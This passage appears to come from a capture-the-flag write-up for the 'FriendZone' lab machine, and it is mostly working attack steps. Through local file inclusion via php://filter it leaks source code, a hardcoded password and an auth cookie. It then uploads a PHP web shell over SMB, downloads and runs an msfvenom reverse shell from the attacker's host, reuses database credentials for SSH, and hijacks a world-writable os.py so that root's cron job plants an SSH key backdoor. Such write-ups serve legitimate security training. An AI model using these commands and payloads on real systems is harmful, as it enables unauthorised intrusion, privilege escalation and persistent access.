ZTwvcD48L2NlbnRlcj4iOwogIGVjaG8gIjxjZW50ZXI+PHA+ZGVmYXVsdCBpcyBpbWFnZV9pZD1hLmpwZyZwYWdlbmFtZT10aW1lc3RhbXA8L3A+PC9jZW50ZXI+IjsKIH1lbHNlewogJGltYWdlID0gJF9HRVRbImltYWdlX2lkIl07CiBlY2hvICI8Y2VudGVyPjxpbWcgc3JjPSdpbWFnZXMvJGltYWdlJz48L2NlbnRlcj4iOwoKIGVjaG8gIjxjZW50ZXI+PGgxPlNvbWV0aGluZyB3ZW50IHdvcm5nICEgLCB0aGUgc2NyaXB0IGluY2x1ZGUgd3JvbmcgcGFyYW0gITwvaDE+PC9jZW50ZXI+IjsKIGluY2x1ZGUoJF9HRVRbInBhZ2VuYW1lIl0uIi5waHAiKTsKIC8vZWNobyAkX0dFVFsicGFnZW5hbWUiXTsKIH0KfWVsc2V7CmVjaG8gIjxjZW50ZXI+PHA+WW91IGNhbid0IHNlZSB0aGUgY29udGVudCAhICwgcGxlYXNlIGxvZ2luICE8L2NlbnRlcj48L3A+IjsKfQo/Pgo='
```

Provides this source:

```php+HTML
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```

Which gives us the static `Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1` to use for future requests using curl/httpie.

We might also be able to do XSS with the image tag, assuming we can escape the single quote, but I don't think that'll buy us anything in this instance. Let's look at the other pages...

```sh
# pull the page with curl, split response output based on last HTML tag (</center>),
# and extract the base64 text
❯ http --verify no 'https://administrator1.friendzone.red/dashboard.php?image_id=x&pagename=php://filter/convert.base64-encode/resource=login' Cookie:FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1 | awk -F'</center>' '{print $5}'

PD9waHAKCgokdXNlcm5hbWUgPSAkX1BPU1RbInVzZXJuYW1lIl07CiRwYXNzd29yZCA9ICRfUE9TVFsicGFzc3dvcmQiXTsKCi8vZWNobyAkdXNlcm5hbWUgPT09ICJhZG1pbiI7Ci8vZWNobyBzdHJjbXAoJHVzZXJuYW1lLCJhZG1pbiIpOwoKaWYgKCR1c2VybmFtZT09PSJhZG1pbiIgYW5kICRwYXNzd29yZD09PSJXT1JLV09SS0hoYWxsZWx1amFoQCMiKXsKCnNldGNvb2tpZSgiRnJpZW5kWm9uZUF1dGgiLCAiZTc3NDlkMGY0YjRkYTVkMDNlNmU5MTk2ZmQxZDE4ZjEiLCB0aW1lKCkgKyAoODY0MDAgKiAzMCkpOyAvLyA4NjQwMCA9IDEgZGF5CgplY2hvICJMb2dpbiBEb25lICEgdmlzaXQgL2Rhc2hib2FyZC5waHAiOwp9ZWxzZXsKZWNobyAiV3JvbmcgISI7Cn0KCgoKPz4K
```

Base64 decoding gives:

```php+HTML
<?php
$username = $_POST["username"];
$password = $_POST["password"];

//echo $username === "admin";
//echo strcmp($username,"admin");

if ($username==="admin" and $password==="WORKWORKHhallelujah@#"){

setcookie("FriendZoneAuth", "e7749d0f4b4da5d03e6e9196fd1d18f1", time() + (86400 * 30)); // 86400 = 1 day

echo "Login Done ! visit /dashboard.php";
}else{
echo "Wrong !";
}
?>
```

We see the same password as last time. Nothing new. What about timestamp?

```sh
# demystify my magic base64 decode alias
❯ alias b64d
b64d=b64decode
❯ alias b64decode
b64decode='python3 -c '\''import sys,base64 as b;s=" ".join(sys.argv[1:]) if len(sys.argv)>1 else sys.stdin.read().encode();sys.stdout.buffer.write(b.b64decode(s.strip()));'\'

# get timestamp page and decode base64 in place
❯ http --verify no 'https://administrator1.friendzone.red/dashboard.php?image_id=x&pagename=php://filter/convert.base64-encode/resource=timestamp' Cookie:FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1 | awk -F'</center>' '{print $5}' | b64d
```

gives the following:

```php+HTML
<?php
$time_final = time() + 3600;
echo "Final Access timestamp is $time_final";
?>
```

Nothing useful. What about the upload script we hit before?

```php+HTML
<?php
// not finished yet -- friendzone admin !
if(isset($_POST["image"])){
  echo "Uploaded successfully !<br>";
  echo time()+3600;
}else{
  echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";
}
?>
```

Worthless.

Got stuck here for a while poking around for other random php files. Eventually took a hint, and was told to look at the comments of the SMB shares. The `Files` share is in `/etc/Files`, so it stands to reason that `general` is in `/etc/general` and `Development` is in `/etc/Development`. I already dropped a php file in Development, so let's see if I can see it!

```sh
❯ http --verify no 'https://administrator1.friendzone.red/dashboard.php?image_id=x&pagename=php://filter/convert.base64-encode/resource=../../../../../etc/Development/test' Cookie:FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1 | awk -F'</center>' '{print $5}' | b64d

<?php phpinfo(); ?>
```

Boom. There it is. Visiting that page in the browser without the base64 filter:



And that's code execution! Now to turn it into a shell.

Notes from the phpinfo before moving on:

- server root: `/etc/apache2`
- web root + script loc: `	/var/www/admin/dashboard.php`
- user: `www-data`
- OS: `Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64`

Now to make a simple web shell and drop it where we can use it:

```sh
❯ echo $'<?php system($_GET[\'cmd\']); ?>' > ../pwn/ws.php
❯ smbclient //10.10.10.123/Development -N
smb: \> put ../pwn/ws.php ws.php
```

Then use the web shell with our curl command:

```sh
# testing out with 'id'
❯ curl -skGH 'Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1' 'https://administrator1.friendzone.red/dashboard.php' --data 'image_id=x' --data 'pagename=../../../../../etc/Development/ws' --data-urlencode 'cmd=id' | awk -F'</center>' '{print $5}'
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To make things easy, let's turn this into a script, called `run.sh`:

```sh
#!/bin/bash

curl -skGH 'Cookie: FriendZoneAuth=e7749d0f4b4da5d03e6e9196fd1d18f1' 'https://administrator1.friendzone.red/dashboard.php' --data 'image_id=x' --data 'pagename=../../../../../etc/Development/ws' --data-urlencode cmd="$*" | awk -F'</center>' '{print $5}'
```

Now let's get to work:

```sh
# check if host has wget binary
❯ ./run.sh which wget
# /usr/bin/wget

# create reverse shell
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.12 LPORT=9000 -f elf -o rsh.elf

# start reverse shell listener
❯ nc -lvnp 9000

# serve file over http
❯ python3 -m http.server

# download reverse shell on victim
❯ ./run.sh wget -P /tmp 10.10.14.12:8000/rsh.elf

# mark as executable
❯ ./run.sh chmod +x /tmp/rsh.elf

# execute reverse shell
❯ ./run.sh "( ( /tmp/rsh.elf &) &)"
```

And we get a shell!

# Privesc

```sh
cat user.txt
a9ed20acecd6c5b6b52f474e15ae9a11
```

Enumeration:

```sh
ls /home
# friend

cd /var/www
cat mysql_data.conf
# for development process this is the mysql creds for user friend
# db_user=friend
# db_pass=Agpyu12!0.213$
# db_name=FZ
```

Looks like credential reuse will be likely with user named friend locally and in the database.

Trying ssh login as friend works!

More enumeration:

```sh
uname -a
# Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

set
# BASH_VERSION='4.4.19(1)-release'
# HOSTNAME=FriendZone

ip a
# 2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
#     link/ether 00:50:56:b9:a4:62 brd ff:ff:ff:ff:ff:ff
#     inet 10.10.10.123/24 brd 10.10.10.255 scope global ens33

netstat -untap
# Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
# tcp        0      0 10.10.10.123:53         0.0.0.0:*               LISTEN      -
# tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN      -
# tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
# tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
# tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
# tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      -
# tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
# tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -

cat /etc/*release
# DISTRIB_ID=Ubuntu
# DISTRIB_RELEASE=18.04
# DISTRIB_CODENAME=bionic
# DISTRIB_DESCRIPTION="Ubuntu 18.04.1 LTS"
```

Now to run linpeas:

```sh
# on attacker: get latest linpeas.sh
wget -qc https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

# on victim, get linpeas from attacker
wget 10.10.14.14:8000/linpeas.sh

# mark executable
chmod +x linpeas.sh

# run
./linpeas.sh
```

Notice it mentions unexpected folder: `/opt/server_admin`, which has executable file `reporter.py` owned by root:

```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Strange. I wonder if this gets run as a cron job? If so, maybe we can exploit it if we can modify something in the python path.

Looking closer at linpeas output, it also says the file `/usr/lib/python2.7/os.py` is world-writable! That gets imported by this script, so we should be able to insert our code into the `os.py` file to get run as root. Now to see if this gets run by root.

I wrote a script to watch for new processes, which is a variation of something I've seen ippsec do on his YouTube channel:

```bash
#!/bin/bash

# Watches for new processes to show up

PS_CMD="ps -eo pid,ppid,pgrp,session,tty,user,args"
PS_FILTER="grep -v '"$PS_CMD"' | grep -v '"\\[$(basename $0)\\]"' | grep -v '"$0"' | grep -v grep"
PS="$PS_CMD | $PS_FILTER"

old="$(eval $PS)"

while true; do
    new="$(eval $PS)"
    diff="$(diff -a --suppress-common-lines <(echo "${old}") <(echo "${new}") | grep '[\<\>]')"
    if [ -n "$diff" ]; then
        echo "$(date '+%Y%m%d-%T') ============================================"
        echo "$diff"
        echo
    fi
    old="$new"
done
```

Produces this:

```
20220414-02:08:01 ============================================
>  46102    384    384    384 ?        root     /usr/sbin/CRON -f
>  46103  46102  46103  46103 ?        root     /bin/sh -c /opt/server_admin/reporter.py
>  46104  46103  46103  46103 ?        root     [reporter.py]

20220414-02:08:01 ============================================
<  46102    384    384    384 ?        root     /usr/sbin/CRON -f
<  46103  46102  46103  46103 ?        root     /bin/sh -c /opt/server_admin/reporter.py
<  46104  46103  46103  46103 ?        root     [reporter.py]
```

Sure enough, it's run by root every 2 minutes!

Now to edit `/usr/lib/python2.7/os.py` to test if we can get code execution as root. First, append the following line to the end of the file:

```python
system("id > /tmp/pwn")
```

Then create a `test.py` file to see if we can `import os` to run our code (as `friend`):

```python
import os
```

Then test run it by:

```sh
python test.py
```

Now we see `/tmp/pwn` with our (friend's) `id`!

Now modify the system command in `os.py` to add our ssh key to root's known hosts:

```python
system("mkdir -p /root/.ssh && chmod 700 /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCamDtOJqqQ3blpe0Mp3jrj9XNLUH/8e3UADZXFM2Z3PIczfe+C0LHuSCTZD05SyTIyO4dfWRiY4Td9zKQ3EYmAm5Ta5+ebXXZsedw7yB+c2h5jbtgAt3XX5IauiIvF0WpNMRlr56mY+p9bDRep9Nxe7T6lQgX8+SlFF7phv9J1i49BhP3lRYSTVznU6xwFHo5+UHWIKh5wrpA2X5u0815YDgVj8vRBYwHPXbiFcvNaCZXBjVnfPlcDVTaSvgzogdb9OaJcDbW7yPOeW5SjhIay6o/KXtHV3LS53E/EeV5IJ013zx0e8KdFOebynKqWYcbjHUvy6M8qtGwr7FtSIIGS0vsTssjNFey7j66kwhKttEgjCezV3v1jCqO0f484eOzubPNejLBrIEfJOhGnkTNGqA3AE5vXQ6aVdC2vV2x++5CByqWJO6V8gtbi1XIYiZk+E7P3A/9Yt0QhKklwg4At9yliXhc6KKo55QBkbNeATX+rIWE+iZZfdnYB4iTA/2U= admin' >> /root/.ssh/known_hosts && chmod 600 /root/.ssh/known_hosts && touch /tmp/pwn")
```

Then wait for the exploit to run:

```sh
watch -- ls -l /tmp
# wait for timestamp of /tmp/pwn to update
```

But trying to ssh in still asks for password? Inspecting the `/etc/ssh/sshd_config` file shows that `PubkeyAuthentication` is set to the default (yes). Derp... My script added the key to the `known_hosts`, not the `authorized_keys` file.

Fix the system command to be:

```python
system("mkdir -p /root/.ssh && chmod 700 /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCamDtOJqqQ3blpe0Mp3jrj9XNLUH/8e3UADZXFM2Z3PIczfe+C0LHuSCTZD05SyTIyO4dfWRiY4Td9zKQ3EYmAm5Ta5+ebXXZsedw7yB+c2h5jbtgAt3XX5IauiIvF0WpNMRlr56mY+p9bDRep9Nxe7T6lQgX8+SlFF7phv9J1i49BhP3lRYSTVznU6xwFHo5+UHWIKh5wrpA2X5u0815YDgVj8vRBYwHPXbiFcvNaCZXBjVnfPlcDVTaSvgzogdb9OaJcDbW7yPOeW5SjhIay6o/KXtHV3LS53E/EeV5IJ013zx0e8KdFOebynKqWYcbjHUvy6M8qtGwr7FtSIIGS0vsTssjNFey7j66kwhKttEgjCezV3v1jCqO0f484eOzubPNejLBrIEfJOhGnkTNGqA3AE5vXQ6aVdC2vV2x++5CByqWJO6V8gtbi1XIYiZk+E7P3A/9Yt0QhKklwg4At9yliXhc6KKo55QBkbNeATX+rIWE+iZZfdnYB4iTA/2U= admin' >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys && touch /tmp/pwn")
```

And now we can log in as root over ssh!

```sh
❯ ssh root@10.10.10.123 -i ~/.ssh/backdoor

cat root.txt
b0e6c60b82cf96e9855ac1656a9e90c7
```

